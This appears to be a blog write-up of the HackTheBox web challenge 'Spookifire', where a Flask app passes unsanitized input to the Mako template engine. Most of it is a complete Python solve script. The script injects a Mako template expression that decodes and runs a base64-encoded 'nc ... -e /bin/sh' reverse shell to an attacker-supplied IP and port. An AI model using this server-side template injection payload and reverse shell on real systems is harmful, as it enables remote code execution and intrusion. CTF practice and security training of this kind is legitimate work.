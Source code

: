 ```yaml
---
title: Spookifire
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, spookifire]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## Spookifire is a python flask chalenge on Hackthebox

### Description:

Simply this challenge takes user input a print it different fornts
but the problem is it doesn't do any sanitizing and it passes the payload to Mako tamplete Engine to be rendered.

### Vulnerable code:
```python
from mako.template import Template
```

```html
    <tbody>
        ${output}
    </tbody>

```

### Solve:

```python

import base64
import requests
import argparse
 
 

def solve(revshell_ip, revshell_port):
	url = 'http://localhost:1337/'

	rev = f"nc {revshell_ip} {revshell_port} -e /bin/sh"	
	payload = base64.b64encode(rev.encode('utf-8'))
	params = {
		'text': '${self.module.runtime.util.os.system("echo ' + str(payload, "utf-8") + ' | base64 -d| sh")}'
	}
 
	print('\n')
	print(params)
	print('\n')
	try:
		response = requests.get(url, params=params)
		if response.status_code == 200:
			print("Request successful!")
			# print("Response:", response.text)
		else:
			print(f"Request failed with status code: {response.status_code}")
	except requests.RequestException as e:
		print(f"Request failed: {e}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Enter your ip and port to get reverse shell.')
    parser.add_argument('ip', type=str, help='ip to get reverse shell')
    parser.add_argument('port', type=str, help='port to get reverse shell')
    args = parser.parse_args()
    solve(args.ip, args.port)

```







